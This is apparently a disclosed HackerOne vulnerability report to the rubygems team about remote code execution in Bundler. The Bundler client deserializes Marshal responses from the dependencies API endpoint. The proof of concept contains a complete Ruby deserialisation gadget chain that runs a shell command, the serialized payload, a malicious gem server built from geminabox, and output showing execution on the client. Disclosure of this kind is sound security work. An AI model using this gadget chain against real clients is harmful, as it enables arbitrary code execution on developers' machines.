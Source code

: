 # Bundler's RCE with response using Marshal

## Report Details
- **Report ID**: 1119120
- **URL**: https://hackerone.com/reports/1119120
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2021-03-07T07:02:49.576Z
- **Disclosed**: 2024-03-12T02:56:05.631Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rubygems

## Vulnerability Information
In `GET /api/v1/dependencies`, which Bundler uses to check dependencies, the response is `Marshal.dump` instead of `JSON`.

https://github.com/rubygems/rubygems.org/blob/a6f78a01598592083850f15e262bbc09a85b0a70/app/controllers/api/v1/dependencies_controller.rb#L12

```ruby
    respond_to do |format|
      format.json { render json: deps }
      format.marshal { render plain: Marshal.dump(deps) }
    end
```

According to the [Universal Deserialisation Gadget for Ruby 2.x-3.x](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) article, Marshal.load can be RCE.
Therefore, RCE is possible for the client that receives the specially crafted response.


### Poc

#### Prepare attack code

Prepare code to run `date`

```ruby
# Universal Deserialisation Gadget for Ruby 2.x-3.x
# https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "date") # for run `date`

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
```

```
❯ ruby create_rce.rb
"\x04\b[\bc\x15Gem::SpecFetcherc\x13Gem::InstallerU:\x15Gem::Requirement[\x06o:\x1CGem::Package::TarReader\x06:\b@ioo:\x14Net::BufferedIO\a;\ao:#Gem::Package::TarReader::Entry\a:\n@readi\x00:\f@headerI\"\baaa\x06:\x06ET:\x12@debug_outputo:\x16Net::WriteAdapter\a:\f@socketo:\x14Gem::RequestSet\a:\n@setso;\x0E\a;\x0Fm\vKernel:\x0F@method_id:\vsystem:\r@git_setI\"\tdate\x06;\fT;\x12:\fresolve"
```

#### Prepare evil server

Prepare a server to work on the response.
I created it based on [geminabox](https://github.com/geminabox/geminabox).

```ruby
# geminabox/geminabox/lib/geminabox/server.rb
    get '/api/v1/dependencies' do
      attack = "\x04\b[\bc\x15Gem::SpecFetcherc\x13Gem::InstallerU:\x15Gem::Requirement[\x06o:\x1CGem::Package::TarReader\x06:\b@ioo:\x14Net::BufferedIO\a;\ao:#Gem::Package::TarReader::Entry\a:\n@readi\x00:\f@headerI\"\baaa\x06:\x06ET:\x12@debug_outputo:\x16Net::WriteAdapter\a:\f@socketo:\x14Gem::RequestSet\a:\n@setso;\x0E\a;\x0Fm\vKernel:\x0F@method_id:\vsystem:\r@git_setI\"\tdate\x06;\fT;\x12:\fresolve"
      query_gems.any? ? attack : 200
    end
```

```
❯ RUBYGEMS_PROXY=true rackup
Puma starting in single mode...
* Puma version: 5.2.2 (ruby 2.7.1-p83) ("Fettisdagsbulle")
*  Min threads: 0
*  Max threads: 5
*  Environment: development
*          PID: 22469
* Listening on http://127.0.0.1:9292
* Listening on http://[::1]:9292
```

### Use evil sever

```
❯ bundle -v
Bundler version 2.2.13

❯ bundle init

# Use evil server for source
❯ cat Gemfile
# frozen_string_literal: true

# source "https://rubygems.org"
source "http://127.0.0.1:9292"

gem "json"
```

```
# `date` runs on the client
❯ bundle install
Fetching gem metadata from http://127.0.0.1:9292/.sh: reading: command not found
2021年 3月 7日 日曜日 15時44分43秒 JST

Retrying dependency api due to error (2/4): Bundler::MarshalError TypeError: no implicit conversion of nil into String
sh: reading: command not found
2021年 3月 7日 日曜日 15時44分43秒 JST

Retrying dependency api due to error (3/4): Bundler::MarshalError TypeError: no implicit conversion of nil into String
sh: reading: command not found
2021年 3月 7日 日曜日 15時44分44秒 JST

Retrying dependency api due to error (4/4): Bundler::MarshalError TypeError: no implicit conversion of nil into String
sh: reading: command not found
2021年 3月 7日 日曜日 15時44分44秒 JST
```

## Impact

Of course, there is a danger in specifying an untrusted `source` and in the possibility of a man-in-the-middle attack. This endpoint using marshal increases that risk.

## Attachments
No attachments
